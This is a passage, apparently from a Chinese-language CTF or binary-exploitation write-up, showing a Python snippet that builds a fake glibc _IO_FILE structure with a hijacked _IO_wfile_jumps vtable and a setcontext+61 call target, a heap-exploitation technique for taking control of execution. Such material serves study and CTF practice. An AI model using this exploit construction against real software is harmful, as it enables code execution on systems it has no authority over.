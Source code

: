 [![](assets/1699929779-d2dea1fc0090447c4f4e9d627fa68b28.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110001445-18dd82e8-7f1b-1.png)

[![](assets/1699929779-96fac50a7d39f7a206177fa9a89017c5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110001448-1a8c0114-7f1b-1.png)

## 三、构造 fake\_io

```bash
fake_struct = p64(0) #_IO_read_end
fake_struct += p64(0) #_IO_read_base
fake_struct += p64(0) #_IO_write_base
fake_struct += p64(0) #_IO_write_ptr
fake_struct += p64(0) #_IO_write_end
fake_struct += p64(0) #_IO_buf_base
fake_struct += p64(1) #_IO_buf_end
fake_struct += p64(0) #_IO_save_base
fake_struct += p64(fake_io_addr + 0xb0) #_IO_backup_base = rdx
fake_struct += p64(setcontext + 61) #_IO_save_end = call_addr
fake_struct += p64(0)  #_markers
fake_struct += p64(0)  #_chain
fake_struct += p64(0)  #_fileno
fake_struct += p64(0)  #_old_offset
fake_struct += p64(0)  #_cur_column
fake_struct += p64(heap_base + 0x200) #_lock = heap_addr or writeable libc_addr
fake_struct += p64(0) #_offset
fake_struct += p64(0) #_codecvx
fake_struct += p64(fake_io_addr + 0x30) #_wfile_data rax1
fake_struct += p64(0) #_freers_list
fake_struct += p64(0) #_freers_buf
fake_struct += p64(0) #__pad5
fake_struct += p32(0) #_mode
fake_struct += b"\x00"*20 #_unused2
fake_struct += p64(_IO_wfile_jumps + 0x10) #vatable
fake_struct += p64(0)*6 #padding
fake_struct += p64(fake_io_addr + 0x40) #rax2 -> to make [rax+0x18] = setcontext + 61
```
